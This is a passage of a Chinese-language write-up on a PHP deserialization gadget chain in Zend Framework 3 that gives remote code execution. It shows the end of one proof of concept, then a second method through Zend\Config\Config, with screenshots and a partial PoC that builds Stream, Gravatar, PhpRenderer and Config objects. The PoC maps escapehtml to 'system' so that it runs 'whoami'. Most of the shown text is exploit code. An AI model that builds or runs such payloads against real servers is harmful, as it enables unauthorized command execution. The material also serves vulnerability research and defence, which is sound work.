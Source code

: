 ```php
    $a = new Zend\Http\Response\Stream($b);
    echo base64_encode(serialize($a));
}
```

#### 结果
![](https://raw.githubusercontent.com/Ling-Yizhou/zendframework3-/main/13.png)

### 方法二：Zend\Config\Config
另一种方法是寻找更方便的有`get()`的方法，我找到了`Zend\Config\Config`
![](https://raw.githubusercontent.com/Ling-Yizhou/zendframework3-/main/14.png)

可以直接返回我们想要的数据，在`$key = $escaper($key)`rce
调用栈如下
![](https://raw.githubusercontent.com/Ling-Yizhou/zendframework3-/main/16.png)

#### poc
```php
<?php

namespace Zend\Http\Response {
    class Stream
    {
        protected $cleanup = true;
        protected $streamName;

        public function __construct($streamName)
        {
            $this->streamName = $streamName;
        }
    }
}

namespace Zend\View\Helper{
    class Gravatar{
        protected $view;
//        protected $attributes = ["whoami"=>'a'];
        protected $attributes = ['whoami'=>1];
        public function __construct($view)
        {
            $this->view=$view;
        }
    }
}

namespace Zend\View\Renderer{
    class PhpRenderer{
        private $__helpers;
        public function __construct($__helpers)
        {
            $this->__helpers = $__helpers;
        }
    }
}

namespace Zend\Config{
    class Config{
        protected $data = [
            "escapehtml"=>'system',
            "escapehtmlattr"=>'phpinfo'
        ];
    }
```